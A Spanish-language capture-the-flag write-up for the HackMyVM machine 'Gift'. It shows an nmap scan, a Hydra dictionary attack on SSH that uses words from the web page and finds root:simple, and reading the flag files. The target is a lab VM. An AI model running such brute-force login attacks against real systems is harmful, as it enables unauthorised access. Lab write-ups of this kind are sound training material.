 # WriteUp: Gift | HackMyVM

### <mark style="color:yellow;">Análisis Inicial</mark>

Este documento detalla el proceso de resolución para la máquina **Gift** de la plataforma HackMyVM. La descripción de la máquina virtual (VM) establece la siguiente premisa:

> "A really easy VM. Thats a gift :)"

Lo cual traducido al español sería algo como:

```
Opción más literal y directa: 
"Una VM muy fácil. Es un regalo :)"

Opciones más naturales y comunes en español:

- "Una VM realmente fácil. Es todo un regalo :)"
    
- "Una máquina virtual muy sencilla. Prácticamente un regalo :)"
    
- "Esta VM es muy fácil. Un regalito :)" (Más informal)
```

Esta afirmación sugiere que la ruta de explotación no requerirá técnicas complejas ni una enumeración exhaustiva. La estrategia inicial se basará en identificar pistas evidentes y seguir la ruta más directa posible.

### <mark style="color:green;">Fase 1: Reconocimiento</mark>

El objetivo de esta fase es identificar los puntos de entrada y los servicios expuestos en la máquina víctima.

#### <mark style="color:purple;">Escaneo de Puertos y Servicios</mark>

Se ejecutó un escaneo de red utilizando **Nmap** para identificar puertos abiertos, versiones de servicios y ejecutar scripts de enumeración básicos.

<mark style="color:purple;">**Comando Ejecutado:**</mark>

```sh
nmap -sV -O -sC -T4 172.16.201.128
```

Resultados del Escaneo:

El escaneo reveló dos servicios principales en ejecución:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
```

* **Puerto 22:** Servicio **SSH** (OpenSSH 8.3).
* **Puerto 80:** Servicio **HTTP** (Nginx).

#### <mark style="color:purple;">Acceso al Servicio Web</mark>

Al acceder a la dirección IP `http://172.16.201.128` a través de un navegador web, se encontró una página con un único mensaje, reforzando la idea inicial de simplicidad:

<figure><img src="../../.gitbook/assets/web-acces (1).png" alt=""><figcaption></figcaption></figure>

> "Dont Overthink. Really, Its simple."

Por lo que su traducción al español sería algo como esto:

```
Opción 1 (Más directa):
"No lo pienses demasiado. En serio, es simple."

Opción 2 (Muy común y natural): 
"No le des tantas vueltas. De verdad, es sencillo."

Opción 3 (Enfocada en la acción):
"No te compliques. En serio, es simple."
```

Lo usual sería que después de ingresar a la página web realicemos un búsqueda de directorios internos u ocultos de la misma, sin embargo, según el texto y sus traducciones, "no deberíamos de darle muchas vueltas".

Así mismo, ingresamos a la página web para poder identificar alguna pista que nos permite obtener credenciales de acceso a través de ssh, por lo que quizá algún juego de las palabras que se muestran en pantalla sea parte de las credenciales.

### <mark style="color:green;">Fase 2: Explotación</mark>

Esta fase se centra en obtener acceso al sistema utilizando la información recopilada.

#### <mark style="color:purple;">Ataque de Fuerza Bruta a SSH</mark>

La estrategia consistió en realizar un ataque de fuerza bruta por diccionario contra el servicio SSH, utilizando las palabras encontradas en la web y otros nombres de usuario comunes.

<mark style="color:purple;">**1. Creación del Diccionario**</mark>

Se creó un archivo `credenciales.txt` con la siguiente lista de posibles usuarios y contraseñas:

```
user
admin
root
toor
test
Dont
Overthink
Really
Its
simple
```

<mark style="color:purple;">**2. Ejecución del Ataque con Hydra**</mark>

Se utilizó la herramienta **Hydra** para automatizar el ataque, utilizando el mismo archivo como lista de usuarios (`-L`) y contraseñas (`-P`).

<mark style="color:purple;">**Comando Ejecutado:**</mark>

```sh
hydra -L credenciales.txt -P credenciales.txt ssh://172.16.201.128 -V
```

<mark style="color:purple;">**3. Obtención de Credenciales**</mark>

El ataque fue exitoso, revelando un par de credenciales válidas para el sistema.

<mark style="color:purple;">**Resultado de Hydra:**</mark>

```sh
[22][ssh] host: 172.16.201.128   login: root   password: simple
```

* **Usuario:** `root`
* **Contraseña:** `simple`

### <mark style="color:green;">Fase 3: Post-Explotación</mark>

Con credenciales de `root`, el objetivo final es encontrar y leer las banderas de `user` y `root` para completar el desafío.

#### <mark style="color:purple;">Acceso y Captura de Banderas (Flags)</mark>

<mark style="color:purple;">**1. Conexión Remota**</mark>

Se estableció una conexión SSH utilizando las credenciales obtenidas:

```sh
ssh root@172.16.201.128
```

Al solicitar la contraseña, se ingresó `simple`, obteniendo acceso inmediato a una shell como superusuario (`root`).

<mark style="color:purple;">**2. Localización y Lectura de Banderas**</mark>

Siguiendo la premisa de la simplicidad de la máquina, se ejecutó un comando `ls -la` en el directorio principal del usuario (`/root`).

```sh
# ls -la
drwx------    2 root     root          4096 Sep 24  2020 .
drwxr-xr-x   22 root     root          4096 Sep 18  2020 ..
-rw-------    1 root     root            23 Jul 27 16:41 .ash_history
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
```

Las banderas `user.txt` y `root.txt` se encontraron directamente en el directorio home del usuario `root`. Se procedió a leer su contenido con el comando `cat`.

<mark style="color:purple;">**Ejemplo de Lectura:**</mark>

```sh
cat user.txt
cat root.txt
```

La lectura de estos archivos finalizó exitosamente el desafío CTF.
